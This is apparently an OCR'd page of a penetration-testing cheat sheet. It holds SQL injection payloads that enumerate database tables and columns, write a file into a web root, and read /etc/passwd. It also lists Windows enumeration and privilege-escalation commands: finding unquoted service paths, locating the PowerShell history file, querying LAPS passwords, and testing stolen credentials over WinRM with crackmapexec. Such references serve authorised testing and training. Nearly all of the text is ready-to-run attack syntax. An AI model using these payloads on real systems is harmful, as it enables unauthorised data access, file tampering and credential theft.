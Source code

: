 ```sql
' UNION SELECT 1,table_name from information_schema.tables where table_schema='webapp'-- -
```

```sql
' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='webapp' and table_name='queue' -- -
```

**write to a file**

```sql
' UNION SELECT 1,'serioton' INTO OUTFILE '/var/www/html/test.html' -- -
```

**read a file**

```sql
' UNION SELECT 1,load_file('/etc/passwd') -- -
```

***

### Windows Enumeration and Privilege Escalation

The script below looks for Win32 services on the host with unquoted service paths, not in the Windows folder.

```powershell
Get-WmiObject -Class Win32_Service | Where-Object { $*.PathName -inotmatch “`”” -and $*.PathName -inotmatch “:\\\\Windows\\\\” }| Select Name,Pathname
```

* check for user privileges

```powershell
whoami /priv
```

* powershell history file

```powershell
APPDATA\\roaming\\microsoft\\windows\\powershell`\\psreadline\\ConsoleHost_History.txt
```

* check for specific user info

```bash
net user $username
```

* Get the LAPS passwords

```bash
Get-ADComputer -Filter * -Properties *
```

**check if we can connect via winrm**

```bash
crackmapexec winrm <ip> -u <username> -p <password>
```
